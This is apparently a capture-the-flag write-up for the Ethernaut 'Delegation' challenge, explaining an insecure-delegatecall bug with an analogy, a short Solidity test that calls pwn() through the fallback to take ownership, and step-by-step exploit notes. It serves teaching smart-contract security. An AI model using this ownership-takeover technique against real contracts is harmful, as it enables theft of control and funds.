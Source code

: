 # 🎯 Vulnerability Report: Delegation (Ethernaut #6)

## 🔓 Vulnerability  
- **Type**: Insecure Delegatecall
- **Location**: Fallback function in Delegation contract  
- **Root Cause**:  
  The contract blindly forwards all calls to the Delegate contract using `delegatecall`, allowing attackers to execute arbitrary functions in the context of the Delegation contract's storage.

## Example:

The Scenario (Like a Bank Safe)
Imagine:

Delegate contract = A bank safe with a "Change Owner" button inside

Delegation contract = A reception desk that forwards any request to the safe

Normally, only the safe's owner can press the "Change Owner" button. But the reception desk has a special feature - any request you give it gets passed directly to the safe as if it came from the desk itself.

```js
// Create the safe (Delegate)
delegate = new Delegate(address(0));

// Create the reception desk (Delegation) that forwards to the safe
delegation = new Delegation(address(delegate));
// We walk up to the reception desk as an attacker
vm.prank(attacker);

// We say "Please press the Change Owner button"
// The desk forwards this to the safe, but the safe thinks the request 
// is coming from the desk itself (not us)
(bool success, ) = address(delegation).call(
    abi.encodeWithSignature("pwn()") // This means "call pwn() function"
);

// Now we check who the reception desk thinks is the owner
assertEq(delegation.owner(), attacker); // It's us!
```
## 🕵️‍♂️ How I Discovered It
1. **Analyzed the contracts**:
   - Noticed Delegation's fallback function forwards all calls via delegatecall
   - Saw storage layout matches between contracts (both have `owner` in slot 0)
   - Identified the `pwn()` function in Delegate that changes ownership

## 💥 Exploit Steps

1. **Prepare the attack**  
   - Create the function call data for `pwn()` (the ownership-changing function)

2. **Trigger the vulnerability**  
   - Send the `pwn()` call to the Delegation contract
   - This activates the fallback function that forwards everything via `delegatecall`

3. **Take control**  
   - The forwarded call executes in Delegation's context
   - The `owner` variable gets overwritten (storage slot 0)

4. **Verify success**  
   - Check that our address is now the contract owner
   - This confirms the storage was modified through the delegatecall
  
